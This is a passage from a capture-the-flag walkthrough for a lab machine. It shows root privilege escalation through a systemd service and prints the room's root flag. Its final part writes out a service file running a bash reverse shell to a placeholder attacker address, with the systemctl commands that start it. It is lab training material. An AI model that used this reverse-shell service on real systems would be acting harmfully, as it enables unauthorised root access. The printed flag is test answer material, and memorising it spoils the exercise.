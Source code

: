Lets use the "/var/tmp" directory for all the operations here on out.

![Finding Flag on System](images/thm-vulnversity/finding-flag.png)

Once we run the service we see an file is created in our current directory and when we cat its contents we are given the flag for the root user.

> a58ff8579f0a9270368d33a9966c7fd5

**Note:** An alternate approach to getting root privileges would be to create a service file that would start an reverse shell which we could connect to using a listener on our system and then capture the flag.

The script service file for this approach would look as follows:

```
[Service]Type=simpleUser=rootExecStart=/bin/bash -c 'bash -i >& /dev/tcp/<kali-ip-address>/9999 0>&1'[Install]WantedBy=multi-user.target
```

And we could run the service file using the following commands:

```
/bin/systemctl enable /var/tmp/root.service/bin/systemctl start root
```

That's all. Happy Hacking :)
